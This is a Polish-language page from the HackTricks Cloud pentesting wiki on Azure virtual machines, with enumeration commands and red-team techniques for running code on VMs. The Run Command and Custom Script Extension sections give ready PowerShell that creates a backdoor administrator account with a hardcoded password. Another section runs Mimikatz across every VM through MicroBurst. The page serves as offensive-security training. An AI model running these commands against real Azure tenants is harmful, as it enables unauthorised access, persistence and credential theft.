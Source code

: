 # Az - Maszyny Wirtualne i Sieć

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

## Podstawowe informacje

[Z dokumentacji:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Maszyny wirtualne Azure są jednym z kilku typów [zasobów obliczeniowych na żądanie i skalowalnych](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree), które oferuje Azure. Zazwyczaj wybierasz maszynę wirtualną, gdy potrzebujesz większej kontroli nad środowiskiem obliczeniowym niż oferują inne opcje. Ten artykuł dostarcza informacji o tym, co powinieneś wziąć pod uwagę przed utworzeniem maszyny wirtualnej, jak ją utworzyć i jak nią zarządzać.

## Informacje o sieci Azure

Sieci Azure zawierają **różne podmioty i sposoby ich konfiguracji.** Możesz znaleźć krótkie **opisy,** **przykłady** i **komendy enumeracji** różnych podmiotów sieciowych Azure w:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** oferuje bezpieczne, w pełni zarządzane rozwiązanie dostępu RDP (Remote Desktop Protocol) i SSH (Secure Shell) przez SSL za pośrednictwem portalu Azure. Jest zintegrowany w ramach sieci wirtualnej Azure, co umożliwia łączność RDP i SSH z VM-ami przy użyciu prywatnych adresów IP, unikając potrzeby używania publicznych adresów IP. To czyni go bezpieczniejszą, bardziej wygodną alternatywą dla tradycyjnych metod związanych z przypisywaniem publicznych adresów IP i konfiguracjami reguł NSG dla dostępu do VM. Programiści i personel IT mogą bezpiecznie uzyskiwać dostęp do VM-ów z portalu Azure za pomocą swoich przeglądarek internetowych, co upraszcza proces dla środowisk deweloperskich i testowych.

Aby wyświetlić wszystkie hosty Azure Bastion w swojej subskrypcji, możesz użyć następującej komendy:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Enumeracja VM
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Uruchom polecenia w VM**

### **Logowanie AAD w VM**

Możliwe jest zezwolenie na dostęp dla użytkowników uwierzytelnionych za pomocą AzureAD. Na przykład próbując uzyskać dostęp do **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (ważne jest, aby **użyć adresu e-mail** z azurecorp używanego podczas próby logowania) możesz otrzymać błąd taki jak: 

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Po prostu **postępuj zgodnie z tymi instrukcjami**, przechodząc do [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) i podając kod, użyj adresu e-mail i hasła jako poświadczeń, a będziesz mógł połączyć się za pomocą SSH (jeśli ten użytkownik ma wystarczające uprawnienia: rola `Virtual Machine Administrator Login` lub `Virtual Machine User Login`).

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Uruchomienie rozszerzenia niestandardowego skryptu**

Rozszerzenia maszyn wirtualnych (VM) w Azure to **małe aplikacje**, które zapewniają konfigurację po wdrożeniu i automatyzację **zadań** na **maszynach wirtualnych Azure**. Na przykład, jeśli maszyna wirtualna wymaga instalacji oprogramowania, ochrony antywirusowej lub możliwości uruchomienia skryptu wewnątrz niej, możesz użyć rozszerzenia VM.

Dlatego, jeśli masz dostęp do zapisu, możesz wykonać dowolny kod:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) to narzędzie PowerShell podobne do Ansible, używane do konfigurowania hosta za pomocą kodu. DSC integruje się z Azure, umożliwiając przesyłanie konkretnych plików konfiguracyjnych. Pliki te muszą przestrzegać ścisłej składni. Co ważne, rozszerzenie DSC w Azure może wykonywać polecenia z plików, które spełniają określone kryteria formatowania, nawet jeśli składnia nie jest poprawna według standardów DSC, jak pokazano na dostarczonym rysunku.

Wykonanie tych poleceń jest ułatwione przez funkcję [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) w Az PowerShell. Wymagania obejmują plik **.PS1** z zdefiniowaną funkcją, a plik musi być spakowany do pliku **.zip**. Mimo że składnia może nie być dokładna dla DSC, kod nadal zostanie wykonany. Jednak rozszerzenie oznaczy status wykonania jako "niepowodzenie", a żaden wynik z polecenia nie będzie widoczny z powodu nadpisania statusu komunikatem o błędzie.

### VM Application Definitions

Definicje aplikacji VM umożliwiają powtarzalne wdrażanie wersjonowanych aplikacji na maszynie wirtualnej Azure. Ten zasób wspiera wdrażanie i aktualizację aplikacji w różnych maszynach wirtualnych. Aby to skonfigurować, wymagane są różne kroki, obejmujące polecenia takie jak **`New-AzGalleryApplication`** i **`New-AzGalleryApplicationVersion`** w Az PowerShell.

Wykonanie aplikacji lub poleceń tą metodą wiąże się z **"VMAppExtension"**, która jest automatycznie instalowana, gdy aplikacja jest stosowana do maszyny wirtualnej. Rozszerzenie pobiera plik z określonego URI i nazywa go dokładnie tak samo jak aplikacja, bez rozszerzenia. Aby poprawnie wykonać plik, pole "ManageActions" w wywołaniu REST API musi być skonfigurowane do zmiany nazwy pliku na odpowiednie rozszerzenie. Ustawienie tej metody, po zakończeniu, będzie przypominać strukturę pokazaną na dostarczonym rysunku.

Jednak ta metoda wykonania jest stosunkowo wolna, zajmując około 3-4 minut na wykonanie aplikacji lub polecenia. Pliki związane z tym procesem są przechowywane w określonych katalogach (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` dla kopii aplikacji i `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` dla statusu wykonania).

Obie techniki oferują unikalne sposoby wykonywania poleceń i wdrażania aplikacji w środowiskach Azure, każda z własnym zestawem wymagań, kroków i rozważań.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) to funkcja w Azure, która pozwala na wykonywanie Runbooków, skonfigurowanych w koncie automatyzacji, na maszynie wirtualnej Azure (VM), która jest częścią wyznaczonej HWG. To wykonanie jest ułatwione przez rozszerzenie zainstalowane na VM, które wdraża kod Runbooka na VM. Istotnym aspektem tego procesu jest to, że rzeczywiste poświadczenia nie mają znaczenia w wykonaniu, ponieważ kod działa z podwyższonymi uprawnieniami, konkretnie jako **SYSTEM** lub root, jak pokazano na dostarczonym rysunku.

Kluczowym szczegółem dla osób korzystających z maszyn wirtualnych Windows 10 jest konieczność określenia wersji PowerShell dla Runbooka. Powinna być ustawiona na uruchamianie jako PowerShell Wersja 5.1 zamiast 7.1. Wymóg ten wynika z faktu, że PowerShell 7.1 nie jest domyślnie zainstalowany na tych maszynach wirtualnych, co prowadzi do niepowodzenia w wykonaniu skryptu, jeśli określona jest wersja 7.1.

Ta funkcja Azure oferuje solidną metodę automatyzacji i zarządzania zadaniami w środowiskach hybrydowych, umożliwiając centralne zarządzanie i wykonywanie zadań na maszynach wirtualnych Azure.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
